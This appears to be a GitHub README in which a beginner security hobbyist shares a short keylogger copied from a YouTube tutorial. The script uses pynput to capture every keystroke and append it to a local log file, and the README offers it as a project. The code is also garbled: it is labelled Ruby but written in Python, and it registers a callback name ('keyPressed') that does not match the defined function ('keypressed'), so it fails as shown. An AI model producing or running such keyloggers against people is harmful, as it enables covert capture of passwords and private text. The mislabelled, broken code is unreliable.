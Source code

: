 Hey fellas, I'm Xark-Lymen 
A cyber security practioner (newbie) from India trying out different projects on hand to increase my experience.
This is a keylogger referenced from Shaun Halverson Video on YT 

# CODE

```Ruby

from pynput import keyboard

def keypressed(key):
    print(str(key))
    with open("Logfile.txt", 'a') as logkey:
        try:
            char = key.char
            logkey.write(char)
        except: 
            print("error getting char")


if __name__ == "__main__":
    listener = keyboard.Listener(on_press=keyPressed)
    listener.start()
    input()

```
